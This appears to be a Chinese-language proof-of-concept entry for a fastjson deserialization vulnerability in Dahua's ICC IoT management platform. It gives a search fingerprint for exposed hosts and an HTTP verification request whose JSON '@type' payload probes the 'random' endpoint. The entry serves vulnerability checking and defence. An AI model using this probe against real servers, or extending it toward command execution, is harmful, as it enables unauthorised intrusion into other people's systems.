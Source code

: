 ﻿# 大华智能物联综合管理平台 fastjson反序列化漏洞

> 更新时间：2024-05-14

> 漏洞编号：

> 漏洞说明：ICC智能物联综合管理平台是一个集成了物联网技术、大数据分析、云计算等先进技术的综合性管理平台。它致力于为企业提供一站式的物联网解决方案，帮助企业实现设备连接、数据收集、分析与应用，从而提高企业的运营效率、降低成本，并推动物联网行业的创新与发展。平台的主要目标是构建一个开放、可扩展、易于集成的物联网生态系统，为各类企业提供全面的物联网服务。其接口random存在fastjson反序列化漏洞，攻击者可通过该漏洞执行任意系统命令，控制服务器。

> 漏洞特征：icon_hash="-1935899595"

> 验证脚本：HTTP

```
POST /evo-runs/v1.0/auths/sysusers/random HTTP/2
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: application/json


{"a":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.net.URL","val":"http://www.baidu.com"}}""}
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：大华智能物联综合管理平台 fastjson反序列化漏洞.poc


